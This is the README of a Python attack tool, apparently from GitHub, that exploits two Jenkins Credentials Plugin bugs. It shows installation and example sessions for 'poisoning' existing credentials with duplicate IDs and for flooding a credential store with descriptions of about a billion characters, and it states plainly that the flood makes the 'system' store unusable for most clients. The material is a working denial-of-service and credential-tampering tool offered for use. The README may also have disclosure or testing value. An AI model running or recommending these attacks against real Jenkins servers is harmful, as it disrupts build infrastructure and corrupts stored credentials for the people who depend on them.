 # Jenkins Credentials Flood

## Description
This tool allows users to interact with the Jenkins Credentials Plugin to exploiting two bugs. One of them (duplicate IDs) is only affecting versions prior to `1337.v60b_d7b_c7b_c9f`. 

### Bugs
1. **JENKINS-72611**: A bug affecting the Credentials Plugin prior to version `1337.v60b_d7b_c7b_c9f`. More details can be found [here](https://issues.jenkins.io/browse/JENKINS-72611).
2. **Description Length Limit**: A second bug that remains unresolved, which allows for credentials to be added without validation on the description length limit.

## Installation
To use this tool, ensure you have Python installed on your machine. Clone the repository and install any required dependencies.

```bash
git clone https://github.com/Harckade/jenkins-credentials-flood.git
cd jenkins-credentials-flood
pip install -r requirements.txt
```

## Usage
To run the program, use the following command:

```bash
python jenkins_exploit_tool.py [COMMAND] [OPTIONS]
Available Commands
help - Show this help message.
list - List all credentials from all stores.
list STORE_PATH - List credentials from a specific store. E.g., list store/sub-store.
add - Add a credential or a set of credentials to a specific store with any length. This may slow down users' browsers.
poison - Add credentials with the same ID as already existing ones. This is only possible if the Credentials plugin version is prior to 1337.v60b_d7b_c7b_c9f.
exit - Exit the program.
```

## Examples

### To run the tool using username and password
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
```

### To run the tool using session ID token
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -t JSESSIONID.3ca79i9ds3457ergg
```

### To display the help message
```bash
python jenkins_exploit_tool.py -h
```

### To list all credentials from all stores:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
list
```

### To list credentials from a specific store:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
list store/sub-store
```

### To add a credential:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
add
# (default - "System") store:
# (default - "(global)") domain:
# (default - 99999999) description length: 9999999900
⚠️  1000000900 characters long description will make 'system' store unusable for the most clients ⚠️
# (y/n) procceed: y
Length: 1000000900
# (default - 1) number of credentials: 3
This may take a while...
Adding credential #creds-flood-bf622-0
```

### To poison an existing credential:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
poison
# (default - "System") store:
# (default - "(global)") domain:
# target credential id: harckade-1
```

## Contributing
If you'd like to contribute to this project, please follow these steps:

- Fork the repository.
- Create a new branch (git checkout -b feature-branch).
- Make your changes and commit them (git commit -m 'Add new feature').
- Push to the branch (git push origin feature-branch).
- Open a pull request.
